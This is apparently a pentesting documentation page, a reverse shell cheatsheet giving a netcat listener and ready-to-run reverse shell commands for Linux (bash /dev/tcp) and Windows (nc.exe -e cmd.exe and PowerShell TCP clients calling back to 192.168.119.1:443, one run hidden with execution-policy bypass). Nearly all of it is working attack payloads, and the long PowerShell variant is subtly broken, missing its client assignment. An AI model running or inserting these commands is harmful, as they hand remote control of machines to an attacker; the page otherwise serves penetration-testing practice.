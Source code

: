 ```yaml
---
sidebar_position: 4
---
```


# Reverse Shell Cheatsheet

A reverse shell allows an attacker to gain shell access to a target machine by making the target connect back to the attacker's listener. Below are common reverse shell commands for Linux and Windows.

- [PayloadsAllTheThings: Reverse Shell Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

## Attacker's Machine (Listener)

Start a listener to wait for incoming connections:

```bash
nc -nvlp {port}
```

## Linux Reverse Shell (Target)

On the target machine, connect back to the attacker's listener:

```bash
bash -i >& /dev/tcp/{ip}/{port} 0>&1
```

## Windows Reverse Shell (Target)

- Using netcat:

```cmd
nc.exe -nv 192.168.119.1 443 -e cmd.exe
\\192.168.119.1\a\bin\nc.exe -nv 192.168.119.1 443 -e cmd.exe
```

- Using PowerShell (full):

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("192.168.119.1",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

- Using PowerShell (short):

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.119.1',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
